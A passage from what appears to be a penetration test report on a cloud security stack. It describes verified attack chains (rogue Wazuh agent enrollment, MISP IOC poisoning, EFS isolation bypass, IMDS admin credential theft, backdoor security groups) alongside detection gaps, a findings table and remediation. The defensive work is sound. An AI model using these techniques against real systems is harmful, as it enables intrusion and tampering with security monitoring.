agent connects.** Starting `wazuh-agentd` with that key, the agent **connected to the
manager on 1514** (`Connected to the server [10.0.10.250]:1514/tcp`) and the manager
accepted it — Wazuh logged rule **501 "New wazuh agent connected" (level 3)**. (3) **Inject.**
A connected, trusted agent can submit events `analysisd` decodes and indexes *as that
agent* — forge "all-clear" evidence or bury real alerts in noise.

> **End-to-end honesty.** Steps (1) and (2) are proven live — open enrollment yields a
> valid key and a *connected, manager-accepted* rogue agent. Step (3), pushing a specific
> forged log line all the way to an alert, I could **not** complete in this environment:
> the only agent image available to a bc-prd pod is the stripped DaemonSet image, whose
> `wazuh-execd` will not start in an ephemeral-container context, so the agent wouldn't
> run stably enough to ship a `logcollector` event (and the cluster's pod-capacity
> exhaustion + a broken-egress node made staging it a fight). Injection is the
> protocol-guaranteed consequence of holding a valid key on a connected agent; treat F-12
> as proven *through agent connection*, with the final hop demonstrated by design rather
> than by a landed forged record.

**Detection nuance.** The enrollment itself raises no alert; the *connect* raises only the
**level-3** rule 501 (informational, easily lost in a 215k-alerts/day stream) — there is no
high-severity "unexpected/rogue agent" rule. My pod activity was caught separately and
loudly by the in-cluster sensors (Tetragon 100702 + K8s-audit 100404), but an attacker
enrolling from an already-running in-pod process would surface only as a quiet rule-501
blip. (Ties **GAP-001**: 1514 is the `secure` agent protocol, not TLS-wrapped. A stray
detail also surfaced — the manager
allow-list includes an undocumented `10.11.0.0/16`.)

**Intel poisoning (F-13).** MISP's API requires a key (unauthenticated `GET /events/index`
→ 403), but that key lives in `bc/suricata/misp` and is held by every Suricata/Zeek pod
via External Secrets — exactly the pods an attacker lands in. With it I read all IOCs,
created a poison event + malicious-domain attribute with `to_ids=true` (which the
Zeek/Suricata sync sidecars would pull into the live IDS feeds on their hourly cycle),
confirmed it searchable, then deleted it. The API also accepts an unverified TLS
connection (`curl -k` / `CERT_NONE`), so it can't distinguish a MITM (**GAP-002**). Wazuh
has no MISP-anomaly rule, so the tamper is a SIEM miss.

### 5.2.1 Shared EFS — multi-tenant data isolation (F-17)

A natural follow-on: *can one pod read the NOMAD Oasis database via its storage?* The
answer splits cleanly. **The databases are on EBS** — MongoDB, PostgreSQL, and
Elasticsearch each use an `ebs.csi.aws.com` block volume, which is node-attached and
*cannot* be mounted by another pod. So the DB files are **not** reachable over the shared
file path (DB compromise would need network + credentials, F-07, or an AWS-admin EBS
snapshot, F-11). **What is shared is the EFS** (`fs-0c3db6b7b…`) holding NOMAD's
research/file data — five volumes (`nomad`, `north-home`, `public`, `staging`, `tmp`),
each via a per-PVC access point under a common `/nomad` parent.

That EFS's per-tenant isolation is **bypassable**: the mount-target security group allows
NFS 2049 from the EKS *node* SG (which pods inherit in Cilium ENI mode), there is **no EFS
filesystem policy** (no IAM `ClientMount` or in-transit-TLS requirement), and the
access-point directories are `0755` (world-readable) under one parent. **Proven live:** a
static PV pointing at the **EFS root** (`volumeHandle = <fs-id>`, *no* access point),
mounted into a pod as `uid 0`, listed and traversed **all of the per-PVC volumes from a
single pod** — the access-point scoping bypassed. The volumes were empty at test time
(fresh deployment, so nothing was exfiltrated), but any data NOMAD stores there is then
readable by such a pod, and a read-write mount would allow tampering all tenants' data.
The prerequisite is the ability to create a PV/PVC (cluster-admin via **F-11**, or a
service account with PVC rights) or a privileged pod for a direct NFS mount — not every
pod trivially, but well within a realistic post-foothold position. **Fix:** an EFS
filesystem policy requiring `aws:SecureTransport` + IAM mount via the CSI role and
denying non-access-point (root) mounts; tighten PVC-create RBAC.

## 5.3 Can the internet reach the brain? External → control (Q3)

**Not over the network.** Externally the runner (`35.158.235.200`) and both fck-nat
public IPs (`3.125.8.207`, `18.192.126.37`) show **every port filtered** — no inbound
services. The only internet-facing control-plane surface is the **EKS API, public to
`0.0.0.0/0`** (recon finding **R1**), and it is token-gated (anonymous → HTTP 401). The
**F-09 OIDC takeover is closed and holds** — the deploy-role trust is scoped to
`repo:…:ref:refs/heads/main`, so a pull-request token no longer matches (verified).

**But the runner is still a second, standing road to admin (F-11).** F-09 fixed the
*web-identity* role; it did nothing to the runner's **instance profile**. The
`github-runner-role` attached to `github-runner-ctrl` carries **`AdministratorAccess`
and an EKS `ClusterAdmin` access entry**. So any workflow that achieves code-exec on the
self-hosted runner (a poisoned-pipeline-execution step) reads that role straight off IMDS
and gets full AWS admin *plus* direct Kubernetes cluster-admin (and, being admin, can read
any secret in the account). **Validated end-to-end:** via SSM I confirmed IMDS on the
runner serves `github-runner-role` creds (`Code: Success`) and `aws sts get-caller-identity`
on-box resolves to `assumed-role/github-runner-role` with `AdministratorAccess`. (The
earlier draft said the runner could steal a PAT at `bc/github/runnerpat`; that secret does
not exist — corrected.) The runner needs no standing admin (CI uses OIDC), so the fix is to
strip Admin from the instance role and leave it SSM + least-privilege.

The undocumented `cheap-test-ubuntu-soar-test` (t3.nano, no key, no IAM role) is reachable
on SSH from a bc-prd pod because its SG allows `0.0.0.0/0` on 22 — shadow-IT hygiene
(ties R3), but with no credentials or role it is a dead-end pivot.

## 5.4 Can a hacker take over the network? (Q4)

**Yes — and it needs no new exploit; it's the sum of standing privileges** (see the
diagram). PPE on the runner → code-exec → IMDS → `github-runner-role` (admin + EKS
cluster-admin) → the whole brain: SSM into wazuh/misp/soar, read every `bc/*` secret,
cluster-admin over all of bc-prd, invoke any Lambda (also via the SOAR role), and forge
SIEM / poison intel / backdoor SGs.

The defenders' problem isn't the *reach* — it's the *blindness*. The in-cluster sensors
are strong: the EKS-audit→Wazuh pipeline caught my `kubectl exec` live (rule **100404**,
T1609, with my source IP and the exact command), and Tetragon SIGKILLed `nc` on the node
(rule **100700**, exit 137). That coverage even reaches the SOAR: a search of Splunk SOAR
for `pentest-netshoot` returns **24 Wazuh-alert events** from my pod activity (screenshot)
— so the *in-cluster* telemetry flows all the way through. **But none of the AWS-API
actions against the brain produced a single alert.** Across ~12 SSM sessions into the SIEM/SOAR boxes, the IAM enumeration,
the backdoor-SG create/authorise/revoke/delete, and the Lambda invocation, **Wazuh fired
zero CloudTrail alerts** — because the CloudTrail/GuardDuty/VPC-Flow ingestion is broken:

**F-16 (the headline).** `ossec.conf` declares **two** `<wodle name="aws-s3">` blocks;
only the second (the EKS-audit `cloudwatchlogs` service) ever runs. The module log shows
**82 "Service Analysis" cycles and 0 "Bucket Analysis" cycles**, and the 366 MB live
alert index contains **zero CloudTrail-sourced (`1003xx`) alerts, ever.** Every
AWS-API-layer detection rule the team wrote — SSM-into-the-brain (100305), SG change
(100302), GuardDuty/Config/SecurityHub teardown (100307/8) — is **loaded but never
evaluates.** The control plane is unmonitored at the cloud-audit layer.

**R4 reversed.** The earlier report called GuardDuty immutability a strength ("org-managed,
a member can't disable it"). It isn't: the detector is **standalone** — no master, no
delegated administrator (`describe-organization-configuration` → *"a delegated
administrator account has not been enabled"*). An account-admin (the runner role) can
disable it, and — because of F-16 — the `DeleteDetector` alarm would never fire.
GuardDuty is also only watching CloudTrail/DNS/Flow logs; `EKS_AUDIT_LOGS`,
`EKS_RUNTIME_MONITORING`, `S3_DATA_EVENTS`, and `LAMBDA_NETWORK_LOGS` are all disabled.

{width=92%}

## 5.5 Op-4 scorecard

| Step | Verdict | Detection that *should* fire | Actually fired? |
|------|---------|------------------------------|-----------------|
| SOAR responding + `lambda:Invoke *` (F-14) | EXPLOITABLE | CloudTrail Invoke / lambda net-logs | **MISS** (F-16; lambda-logs off) |
| Data→control reach: Wazuh 1514/1515, MISP 443 (F-15) | OPEN | (by design) | — |
| Wazuh rogue enroll → agent connects (F-12) | EXPLOITABLE (proven thru connect) | high-sev rogue-agent alert | **MISS** — only L3 rule 501 "agent connected"; pod-side caught via 100404/100702 |
| MISP IOC poison (F-13) | EXPLOITABLE | MISP audit / sync anomaly | **MISS** at SIEM |
| Runner instance-role admin via IMDS (F-11) | EXPLOITABLE | CloudTrail role-use anomaly | **MISS** (F-16) |
| Backdoor SG create/authorise (PoC-D) | EXPLOITABLE | rule 100302 | **MISS** (F-16 — rule inert) |
| SSM into SIEM/SOAR boxes | EXPLOITABLE | rule 100305 | **MISS** (F-16 — 0 hits) |
| EKS API public (R1) | EXPOSED | (exposure, anon denied) | anon → 401 (PASS) |
| EKS-audit catches in-cluster exec | **PASS** | rule 100404 | **HIT** (live) |
| Tetragon kills offensive tools | **PASS** | rule 100700 | **HIT** (exit 137) |
| F-09 OIDC takeover | **BLOCKED** | trust scoped to main | holds (PASS) |
| SOAR / runner / fck-nat network isolation | **PASS** | no inbound | all-filtered (PASS) |

**Teardown:** rogue Wazuh agents 013/014 removed; MISP poison event deleted; backdoor SG
revoked + deleted; canary Lambda deleted; all `PURPLE-TEST` pods gone; victim pod and the
SIEM left exactly as found. Evidence in `screenshots/op4-evidence/`.

\newpage

# Consolidated findings

| ID | Title | Box | MITRE | Severity | Status |
|----|-------|-----|-------|----------|--------|
| F-09 | PR → OIDC → AWS admin takeover | Black | T1199 / T1078.004 | **Critical** | **Fixed** |
| F-16 | CloudTrail/GuardDuty/VPC-Flow ingestion dead in Wazuh (control plane unmonitored at cloud-audit layer) | Op-4 | T1562.001 | **High** | Open |
| F-11 | Runner instance-role standing admin (IMDS → admin + EKS cluster-admin; F-09's 2nd road) | Op-4 | T1078.004 / T1552.005 | **High** | Open |
| F-12 | Wazuh open enrollment from bc-prd → SIEM poisoning (rogue agents 013/014) | Op-4 | T1562.001 / T1565.001 | **High** | Open (ties GAP-001) |
| F-14 | Splunk SOAR: default creds + `lambda:Invoke *` + passive sink (929 alerts, 0 response) | Op-4 | T1648 / T1078.004 | Medium | Open |
| F-13 | MISP IOC poisoning + unverified TLS (key in Suricata/Zeek pods) | Op-4 | T1565.001 | Medium | Open (ties GAP-002) |
| F-15 | Data→control pivot open over peering (pod reaches Wazuh 1514/1515 + MISP 443) | Op-4 | T1021 | Medium | Open |
| R4 | GuardDuty is standalone, not org-delegated → account-admin can disable it (was mis-rated a PASS) | Op-4 | T1562.001 | Medium | Open (revised) |
| F-17 | Shared EFS multi-tenant bypass — root-mounted PV reads all NOMAD volumes (access-point isolation bypassed); DBs are on EBS (safe from this) | Op-4 | T1530 / T1039 | Medium | Open |
| R1 | K8s API public to `0.0.0.0/0` | White | T1133 | High | Open |
| F-10 | K8s audit not in SIEM (blind persistence) | Gray | T1053.007 | High | **Fixed** |
| F-08 | Network sensors blind to C2 / exfil | Gray | T1071 / T1572 | High | Detect added |
| F-01 | "Kill hacking tools" rule inert | Gray | T1059 | High | **Fixed** |
| F-03 | Sensor fleet offline (agent deadlock) | Gray | T1562.001 | High | **Fixed** |
| F-05 | DNS data smuggling invisible | Gray | T1048.003 | Medium | **Fixed** |
| R2 | Pods can reach node IMDS badge | White | T1552.005 | Medium | Open |
| F-07 | Free intra-namespace lateral movement | Gray | T1210 | Medium | Open (by design) |
| F-02 | Tool detection noisy / incomplete | Gray | T1059 | Medium | Partial |
| GAP-004 | Single-point security monitor | White | — | Medium | Open |
| R3 | World-open SG on unused instance | White | T1190 | Low | Open |
| R5 | Documentation vs reality drift | White | — | Low | Open |
| F-06 | Pod → API / IMDS blocked | Gray | T1552 | **Pass** | Strength |
| — | Suricata catches scan / brute / DDoS | Gray | T1046 / T1110 / T1498 | **Pass** | Strength |
| — | runc escape patched (1.3.4) | Gray | T1611 | **Pass** | Strength |
| — | Non-OIDC AssumeRole denied + logged | Black | T1550.001 | **Pass** | Strength |
| — | SOAR / runner / fck-nat have no inbound (network isolation) | Op-4 | T1133 (neg.) | **Pass** | Strength |
| — | EKS-audit → Wazuh caught the live `kubectl exec` (rule 100404) | Op-4 | T1609 (neg.) | **Pass** | Strength |
| — | Tetragon SIGKILLed `nc` on the node (rule 100700) | Op-4 | T1059 (neg.) | **Pass** | Strength |

\newpage

# What got fixed (remediation status)

The defenders fixed the highest-impact findings during and right after the
engagement, and I re-tested each one live:

| Fix | What changed | Re-test result |
|-----|--------------|----------------|
| **F-09** | Deploy role trust scoped to `main` only; pull requests use a new read-only role | Trust now `ref:refs/heads/main`; a stranger's PR no longer matches |
| **F-10** | Kubernetes audit log forwarded into Wazuh; alarms for job/permission/exec/secret actions | Hidden CronJob → alarm 100402 (screenshot) |
| **F-05** | DNS lookups recorded at CoreDNS; alarm on long/gibberish names | Smuggling query → alarm 100721 (screenshot) |
| **F-01** | Kill-rule re-targeted to the executed tool | `nmap` / `nc` → killed, exit 137 (screenshot) |
| **F-08** | Detection added for odd-port C2; Cilium already blocks it | Beacon → blocked + alarm 100710 (screenshot) |
| **F-03** | Agent enrollment de-duplicated | 5 agents Active; telemetry flowing |

**Still open (tracked):** R1 (public API), R2 (IMDS hop limit), F-07 (lateral
movement), the 443-C2 prevention half of F-08, GAP-004 (single SIEM), and the smaller
white-box hygiene items.

# Appendix — coverage & method

**Method.** PTES phases × MITRE ATT&CK for Containers/Cloud × the Lockheed kill
chain. Three operations were run at three sophistication tiers (loud → quiet); the
deliverable is the *detection verdict* per technique, not the compromise.

**ATT&CK techniques exercised.** Initial Access (T1199, T1190, T1133); Execution
(T1059); Privilege Escalation / Escape (T1611, T1068); Credential Access (T1552.001
/.005/.007); Discovery (T1046, T1613); Lateral Movement (T1210); Command & Control
(T1071, T1572); Exfiltration (T1048.003); Persistence (T1053.007); Defense Evasion
(T1550.001, T1562.001).

**Primary tooling.** `nmap`/`nc`, `curl`/`nslookup`, `kubectl`, the AWS CLI, and a
benign C2/DNS-tunnel simulation. AWS-side recon used read-only enumeration as the
account owner. Container-escape was assessed by version fingerprint, not weaponized.

**Evidence.** All alarm screenshots are from the live Wazuh dashboard
(`wazuh-alerts-*`, filtered by `rule.id`) during the post-fix re-test. Network-flow
evidence is from Hubble. Full alert IDs are listed inline per finding.
